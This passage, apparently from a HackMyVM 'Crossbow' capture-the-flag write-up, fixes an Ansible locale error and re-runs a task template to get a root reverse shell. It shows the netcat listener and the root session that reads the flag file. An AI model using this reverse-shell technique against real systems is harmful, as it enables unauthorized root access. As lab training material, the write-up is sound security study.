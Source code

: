 An error occurred `Ansible could not initialize the preferred locale: unsupported locale setting`. This error made me go crazy for a while.... But we can work around this issue now.

In the environment we cat configure the locales as well. So we should navigate back to the environment and adjust the environment configuration.
```
{
	"LC_ALL":"en_US.UTF-8",
	"LANG":"en_US.UTF-8"
}
```

![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224112512.png){: width="700" height="400" }

We should save the new configuration and navigate again to `Task Template` and run the task again.

![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224112618.png){: width="700" height="400" }

This time we did not get an error, but we did get a reverse shell back!
Now we can capture the flag on Crossbow!

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Crossbow]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.0.2.5] from crossbow.hmv [10.0.2.9] 51134
bash: impossible de régler le groupe de processus du terminal (577): Ioctl() inapproprié pour un périphérique
bash: pas de contrôle de tâche dans ce shell
root@crossbow:/root# ls
ls
clean.yml
config.json
root.txt
root@crossbow:/root# cat root.txt
cat root.txt
HERE IS THE ROOT FLAG
root@crossbow:/root# hostname
hostname
crossbow.hmv
root@crossbow:/root# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:ee:a1:18 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.8/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 568sec preferred_lft 568sec
    inet6 fe80::a00:27ff:feee:a118/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:9f:bf:2c:be brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:9fff:febf:2cbe/64 scope link 
       valid_lft forever preferred_lft forever
5: vethcdb8080@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 6a:13:ab:da:82:09 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::6813:abff:feda:8209/64 scope link 
       valid_lft forever preferred_lft forever
```